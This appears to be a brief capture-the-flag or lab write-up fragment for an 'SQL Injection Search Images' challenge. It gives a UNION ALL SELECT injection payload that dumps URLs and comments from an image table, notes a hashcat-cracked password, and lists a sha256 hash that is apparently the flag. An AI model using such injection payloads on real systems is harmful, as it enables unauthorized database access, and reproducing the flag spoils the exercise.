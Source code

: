# SQL Injection Search Images

5 UNION ALL SELECT url,comment FROM Member_images.list_images;#
hashcat give us albatroz, then sha256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

